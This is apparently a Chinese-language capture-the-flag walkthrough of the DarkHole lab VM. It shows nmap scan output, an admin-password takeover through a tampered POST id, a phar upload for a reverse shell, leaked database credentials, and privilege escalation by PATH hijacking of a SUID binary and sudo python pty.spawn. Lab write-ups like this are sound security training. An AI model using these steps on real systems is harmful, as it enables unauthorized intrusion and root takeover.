 # dark_hole

## 主机发现

`172.16.170.44`  

## 端口扫描

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
MAC Address: 00:0C:29:3B:8D:0C (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.81 seconds

```

## 漏洞扫描

```
nmap -p22,80 --script=vuln -sV  172.16.170.44               
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-13 18:26 CST
Nmap scan report for 172.16.170.44
Host is up (0.00044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.2p1: 
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3     *EXPLOIT*
|       10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207     *EXPLOIT*
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|       CVE-2021-28041  4.6     https://vulners.com/cve/CVE-2021-28041
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2016-20012  4.3     https://vulners.com/cve/CVE-2016-20012
|_      CVE-2021-36368  2.6     https://vulners.com/cve/CVE-2021-36368
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|       httponly flag not set
|   /login.php: 
|     PHPSESSID: 
|_      httponly flag not set
| http-enum: 
|   /login.php: Possible admin folder
|   /config/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|_  /upload/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=172.16.170.44
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://172.16.170.44:80/login.php
|     Form id: login__username
|     Form action: login.php
|     
|     Path: http://172.16.170.44:80/register.php
|     Form id: login__username
|_    Form action: 
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## web信息收集

一番四处搜集没有发现什么，注册了个账户进去，看了wp，利用逻辑漏洞，由于只验证get的信息所以在post里将id改为1，实现更改管理员密码

然后文件上传，难度来了，直接不会了，试了各种绕过，最后看了wp，利用phar文件上传反弹shell

![image-20230313200715033](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230313200715033.png)

## 提权

![image-20230313201118149](D:\june\user\网络安全\Notes-of-Network-security\image-20230313201118149.png)

查看前端未能查看到的文件database.php得到用户名密码，尝试远程登陆

```
$connect = new mysqli("localhost",'john','john','darkhole');
```

登录失败，

```
find / -perm -u=s -type f 2>/dev/null
```

查看

![image-20230314095202019](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230314095202019.png)

![image-20230314095221026](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230314095221026.png)



经过一番搜索，在john的家目录发现一个叫toto的文件，具有SUID权限，其作用是输出id：

既然如此，我们能不能修改一下环境变量，让他执行id命令的时候打开一个john的bash：

```
echo "/bin/bash" > /tmp/id
chmod 777 /tmp/id
export PATH=/tmp:$PATH
./toto
```

拿到john的权限之后，查看john的家目录，找到了密码：

查看john的权限：
这里需要输入密码

```
sudo -l
```

发现john可以以root的身份执行file这个python文件：

![image-20230314100803702](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230314100803702.png)

在file.py里面写一段打开shell的代码，再以root的身份执行：

```
echo “import pty;pty.spawn(‘/bin/bash’)” > file.py
sudo python3 /home/john/file.py
```

![image-20230314101621809](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230314101621809.png)

获得root，要使用绝对路径

```
DarkHole{You_Are_Legend}
```

总结：

```
提权方式：环境变量提权
web逻辑漏洞：绕过post参数更改admin参数
webshell权限提升方式：
https://www.cnblogs.com/linuxsec/articles/11966287.html
```

